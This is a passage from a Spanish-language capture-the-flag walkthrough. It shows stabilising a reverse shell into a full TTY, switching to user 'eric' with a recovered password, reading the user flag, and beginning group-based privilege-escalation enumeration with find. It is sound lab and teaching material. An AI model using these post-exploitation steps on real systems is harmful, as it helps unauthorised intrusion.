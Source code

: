 Veremos que ha funcionado, por lo que vamos a sanitizar la `shell`.

### Sanitización de shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

## Escalate user eric

Si nosotros listamos el `passwd` veremos que hay otro usuario llamado `eric` y si recordamos antes tenemos sus credenciales, vamos a probarlo directamente desde esta shell a ver si nos dejara.

```shell
su eric
```

Metemos como contraseña `america`...

```
eric@era:/home/yuri$ whoami
eric
```

Veremos que estaremos dentro con dicho usuario, por lo que vamos a leer la `flag` del usuario.

> user.txt

```
df5cefc62780d3247b132cb10e811879
```

## Escalate Privileges

Si listamos del grupo que somos veremos esto:

```
uid=1000(eric) gid=1000(eric) groups=1000(eric),1001(devs)
```

Vemos que somos del grupo `devs`, vamos a realizar un `find` para ver que podemos hacer con dicho grupo en el sistema.

```shell
find / -group devs -type f 2>/dev/null
```
